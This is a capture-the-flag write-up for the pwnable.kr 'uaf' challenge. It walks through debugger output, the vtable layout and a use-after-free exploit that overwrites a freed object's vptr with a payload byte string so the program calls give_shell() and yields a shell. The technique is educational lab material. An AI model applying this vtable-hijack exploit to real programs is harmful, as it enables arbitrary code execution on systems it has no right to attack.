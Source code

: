 # uaf

1. Login into server with passwd: `guest`:
```
$ ssh uaf@pwnable.kr -p2222
$ scp -P2222 uaf@pwnable.kr:~/* .
```

2. The idea of the task is to call `give_shell()` method of `Human` class.


3. How I called the `give_shell()` method:

* `break *main+79`
* `next`

Now in `rbx` I got the address of of the new `Man` class object.
```
$rax   : 0x0000000000614ea0  →  0x0000000000401570  →  0x000000000040117a  →  <Human::give_shell()+0> push rbp
$rbx   : 0x0000000000614ea0  →  0x0000000000401570  →  0x000000000040117a  →  <Human::give_shell()+0> push rbp
$rcx   : 0x0
$rdx   : 0x19
$rsp   : 0x00007fffffffddd0  →  0x00007fffffffdf18  →  0x00007fffffffe2a1  →  "/home/luk6xff/Projects/ctf/pwnable.kr/uaf/uaf"
$rbp   : 0x00007fffffffde30  →  0x00000000004013b0  →  <__libc_csu_init+0> mov QWORD PTR [rsp-0x28], rbp
$rsi   : 0x00007fffffffdde0  →  0x0000000000614e88  →  0x000000006b63614a ("Jack"?)
$rdi   : 0x00007ffff7dd3d80  →  0x0000000000000000
$rip   : 0x0000000000400f18  →  <main+84> mov QWORD PTR [rbp-0x38], rbx
$r8    : 0x00007ffff782fd80  →  0x0000000000000000
$r9    : 0x0
$r10   : 0x6
$r11   : 0x00007ffff7b21210  →  <std::string::assign(std::string+0> push rbx
$r12   : 0x00007fffffffdde0  →  0x0000000000614e88  →  0x000000006b63614a ("Jack"?)
$r13   : 0x00007fffffffdf10  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffddd0│+0x0000: 0x00007fffffffdf18  →  0x00007fffffffe2a1  →  "/home/luk6xff/Projects/ctf/pwnable.kr/uaf/uaf"        ← $rsp
0x00007fffffffddd8│+0x0008: 0x000000010000ffff
0x00007fffffffdde0│+0x0010: 0x0000000000614e88  →  0x000000006b63614a ("Jack"?)  ← $rsi, $r12
0x00007fffffffdde8│+0x0018: 0x0000000000401177  →  <_GLOBAL__sub_I_main+19> pop rbp
0x00007fffffffddf0│+0x0020: 0x0000000000000001
0x00007fffffffddf8│+0x0028: 0x000000000040140d  →  <__libc_csu_init+93> add rbx, 0x1
0x00007fffffffde00│+0x0030: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
0x00007fffffffde08│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400f0c <main+72>        add    BYTE PTR [rcx+rcx*4-0x1a], cl
     0x400f10 <main+76>        mov    rdi, rbx
     0x400f13 <main+79>        call   0x401264 <_ZN3ManC2ESsi>
 →   0x400f18 <main+84>        mov    QWORD PTR [rbp-0x38], rbx
```

`$rbx   : 0x0000000000614ea0  →  0x0000000000401570  →  0x000000000040117a  →  <Human::give_shell()+0> push rbp`
It's clearly visible that `this` pointer is located at `0x0000000000614ea0`

Now let's take a look on the line 60: `m->introduce();`
Set the breakpoint at: `b *main+265`.

As we know C++ virtual functions calling convention it looks like this: `this->vptr->introduce` where where `give_shell()` is at offset 0 and `introduce()` is at offset 8.

`0x0000000000401570` - is an address of `vtable` pointing by `vptr` to.
Looking at disassembly how `introduce()` is called:
```0x0000000000400fcd <+265>:   mov    rax,QWORD PTR [rbp-0x38]
   0x0000000000400fd1 <+269>:   mov    rax,QWORD PTR [rax]
   0x0000000000400fd4 <+272>:   add    rax,0x8
=> 0x0000000000400fd8 <+276>:   mov    rdx,QWORD PTR [rax]
   0x0000000000400fdb <+279>:   mov    rax,QWORD PTR [rbp-0x38]
   0x0000000000400fdf <+283>:   mov    rdi,rax
   0x0000000000400fe2 <+286>:   call   rdx

```
Now when we know that `give_shell()` is at `vptr + 0 `(0x0000000000401570) and `introduce()` is at `vptr + 8 `(0x0000000000401578) we have to prepare an attack.

### Exploit

The goal of the exploit is to allocate some mory to simulate a `Man` object in the same memory chunk which freed before  but with the `vptr` modified in order to call the `give_shell` function instead of `introduce` when we do the use option.
If `0x401570` was the vtable’s address and we call `introduce()` which is at `0x401578` it means that the call we do is at offset `0x401578-0x401570 = 8`. Now we can subtract the offset from the vtable’s address to obtain the modified pointer.
We have to go through the steps: 1, 3, and two times 2 using the following payload:


```
python3 -c 'print("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/uaf_data
./uaf 24 /tmp/uaf_data
```
where:
* `24` - is a memory chunk allocated by `new`:
```
   0x0000000000400ef7 <+51>:    lea    r12,[rbp-0x50]
   0x0000000000400efb <+55>:    mov    edi,0x18  <==== 24
   0x0000000000400f00 <+60>:    call   0x400d90 <_Znwm@plt>
```
* `"\x68\x15\x40\x00\x00\x00\x00\x00"` - is and `vtable` address of the `give_shell()` function decreased by 8 (`introduce()` is called by adding 8 bytes offset to `vptr`: `0x0000000000400fd4 <+272>:   add    rax,0x8`).


And we get the shell:
`cat flag` gives us:

```
FLAG: {yay_f1ag_aft3r_pwning}
```